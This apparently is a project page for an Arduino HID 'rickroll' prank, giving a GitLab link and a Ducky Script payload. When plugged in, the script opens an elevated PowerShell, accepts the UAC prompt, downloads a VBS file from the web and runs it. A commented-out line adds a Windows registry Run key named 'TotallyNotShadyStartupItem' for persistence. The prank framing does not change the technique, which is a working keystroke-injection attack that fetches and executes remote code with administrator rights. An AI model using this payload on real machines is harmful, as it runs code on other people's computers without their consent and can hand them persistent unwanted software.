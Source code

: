GitLab repo: https://gitlab.com/WarKitteh/arduino-hid-rickroll

Ducky code:
`DELAY 1000
GUI x
DELAY 200
UP
REPEAT 7
DELAY 200
ENTER
DELAY 500
ALT y
DELAY 200
STRING powershell (new-object System.Net.WebClient).DownloadFile('https://gitlab.com/WarKitteh/arduino-hid-rickroll/raw/cee63bb220c856587462b29d61bdfc70c806805f/rickroll.vbs','%userprofile%\rickroll.vbs'); && start %userprofile%\rickroll.vbs && exit
REM powershell (new-object System.Net.WebClient).DownloadFile('https://gitlab.com/WarKitteh/arduino-hid-rickroll/raw/cee63bb220c856587462b29d61bdfc70c806805f/rickroll.vbs','%userprofile%\rickroll.vbs'); && start %userprofile%\rickroll.vbs && reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v TotallyNotShadyStartupItem /d %userprofile%\rickroll.vbs && exit
DELAY 200
ENTER`